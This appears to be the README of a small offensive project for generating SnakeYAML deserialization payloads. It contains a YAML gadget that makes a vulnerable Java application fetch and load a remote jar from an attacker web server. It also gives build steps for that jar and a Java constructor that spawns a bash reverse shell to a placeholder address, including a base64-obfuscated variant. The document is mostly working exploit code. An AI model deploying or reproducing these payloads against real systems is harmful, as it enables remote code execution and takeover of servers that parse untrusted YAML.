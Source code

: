 A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```
Put the java code you want execute into [AwesomeScriptEngineFactory.java](./src/artsploit/AwesomeScriptEngineFactory.java) and compile:
```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Then place the 'yaml-payload.jar' file in to the web server folder (e.g. artsploit.com/yaml-payload.jar)

Shell Payload
```
public AwesomeScriptEngineFactory() {
        String[] cmd = { "bash", "-c", "bash -i >& /dev/tcp/x.x.x.x/16881 0>&1" };
        String[] jex = { "bash", "-c", "{echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}" };
        try {
            Runtime.getRuntime().exec(cmd);
            Runtime.getRuntime().exec(jex);
            Runtime.getRuntime().exec("echo $jex");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
